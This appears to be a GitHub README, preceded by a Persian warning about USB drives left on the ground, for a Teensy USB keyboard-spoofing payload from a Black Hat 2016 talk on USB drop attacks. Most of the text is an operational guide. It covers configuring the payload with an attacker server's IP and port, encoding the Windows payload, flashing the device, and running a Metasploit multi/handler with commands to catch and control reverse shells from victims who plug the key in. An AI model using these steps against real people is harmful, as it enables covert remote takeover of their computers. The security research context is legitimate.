 مراقب usb ها ی که در زمین هستند باشیم // این ساختارها میتونن ابزاری برای نفوذ به سیستم های شما باشن 
#HID spoofing multi-OS payload for Teensy

This code allows to create a cross-platform HID spoofing payload that
will spawn a reverse TCP-shell on Windows and OSX.

It was developed as part of the presentation I made at Blackhat USA 2016:
[Does Dropping USB drives in parking lots and other places really work?](https://www.elie.net/publication/does-dropping-usb-drives-really-work) to show how to create realistic HID spoofing keys that can be used in USB key drop attack.

For more information on how to make realistic HID spoofing key see my [blog post on the subject](https://www.elie.net/malus)

# Environment setup

To get the payload working you need:
1. A Teensy. You can get one from [Amazon](http://amzn.to/2anjrMs) or [PRJC](https://www.pjrc.com/store/teensy32.html) directly
2. The Arduino environment with Teensyduino to compile your payload and the Teensy loader to upload the payload to your Teensy. See [instructions here](https://www.pjrc.com/teensy/index.html)

If you want to conceal the Teensy into a realistic key follow the instruction locate in the last third of my [blog post on the subject](https://www.elie.net/malus)

# Configuring the payload
The payload need to be configured to connect to the server of  your choice. There is to way to do it:
## Use the Python configuration script
That is the easy way and should work on most OSX and Linux or even Windows computers
as long as Python is installed. To run it simply invoke:
```
cd payload
python configure_payload.py IP PORT
```
where *IP* is the IP of the server and *PORT* is the TCP port you want the connection back. Your configured payload is available in the file **configured_payload.c**.

## Manual configuration
If you don't have python, something went wrong or want to do it manually. Here is
what you need to do:
  1. Edit the OSX payload from  **payload/payload_osx.sh** to
  replace the constant IP and PORT with the one from your server
  2. Replace in **payload/payload.c** the *OSX_PAYLOAD_STR* string with your customized payload
  3. Edit the Windows payload from  **payload/payload_win.ps** and replace the constant IP and PORT with the one from your server
  4. Compress and encode it with: `cat payload | gzip -c | base64`
  5. Replace the *WIN_PAYLOAD_STR* string in the **payload/payload.c** with the output of the previous command. The *WIN_PAYLOAD_STR* string is in the middle of the Windows payload.

# Compiling and uploading payload to the Teensy
Once the payload is configured, to get your Teensy up and running all you need to do is:
1. Create a new project in Arduino environment
2. In Tool make sure that the *Board* option is set to *"Teensy 3.2 / 3.1"*
3. The Tool again set the *USB Type* option is set to : *"Serial + Keyboard + Mouse + Joystick"*
4. copy/past the code in the Arduino environment
5. Check that it is working by pressing the verify button
6. Press the compile and upload button to program your Teensy

Congratulation your Teensy is ready to go.


# Configuring the server

The server aspect requires to have a server that have a static IP that is reachable form Internet. We are going to use the generic Metasploit multi handler to control the reverse shell(s). Here is briefly how to do it, for more information please read the [Metaploit documentation](https://help.rapid7.com/metasploit/index.html)

1. Install and launch Metasploit
2. Load the multi-handler `use exploit/multi/handler`
3. Set the Payload to reverse-shell `set payload osx/x64/shell_reverse_tcp` Despite the name, it will works for all OS
4. Set the IP of the server `set LHOST YOUR_IP`
5. Set the PORT of the server `set LPORT YOUR_PORT`
6. Tell Metasploit to not close the plugin when a session disconnect: `set ExitOnSession false`
7. Launch the paylaod: `exploit -j -z`

# Controlling a reverse shell

When a key is plugged you will see a log message indicating a new session is connected. You get the list of sessions by issuing the command:
```
sessions -l
```

To control a specific session:
```
sessions -i session_id
```

